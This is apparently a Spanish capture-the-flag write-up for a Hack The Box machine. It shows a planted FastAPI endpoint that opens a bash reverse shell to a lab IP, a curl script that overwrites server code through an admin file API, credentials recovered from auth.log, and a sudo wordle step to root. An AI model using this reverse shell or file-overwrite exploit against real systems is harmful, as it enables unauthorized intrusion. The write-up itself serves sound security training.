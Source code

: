 **API_KEY**: `68b329da9893e34099c7d8ad5cb9c940`

## Ejecución remota de comandos

### Modificación de user.py

Agregamos un endpoint para RCE:
```python
@router.delete("/ShellMe", status_code=200)
def fetch_shell() -> Any:
    """
    Sends a reverse shell
    """
    import os
    os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'")
    return
```

### Script de explotación

```bash
#!/bin/bash
TOKEN=<Your-token-here>
b64url=$(echo -n "app/api/v1/endpoints/user.py" | base64 | tr '/+' '_-' | tr -d '=')
curl -s -X POST http://10.10.11.162/api/v1/admin/file/${b64url} -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d "{\"file\":\"$(cat escaped)\"}" | jq .result -r
```

## Escalada de privilegios

### Credenciales en auth.log

Encontramos credenciales para el usuario `htb`:
```
Usuario: htb
Contraseña: 1qaz2wsx_htb!
```

### Explotación de pam_wordle

Al ejecutar `sudo -l` nos enfrentamos a un juego de palabras:

![Juego pam_wordle](/secciones/posts/imagenes/backendtwo/wordle1.avif)

Resolviendo el juego (la palabra era `chmod`), obtenemos acceso root:

```bash
sudo cat /root/root.txt
```

## Nota 

Algunos writeups pueden tener contenido de otras páginas o pocas imágenes debido a que en algunas máquinas no tomé apuntes completos. He recopilado información de varios writeups para crear esta guía.

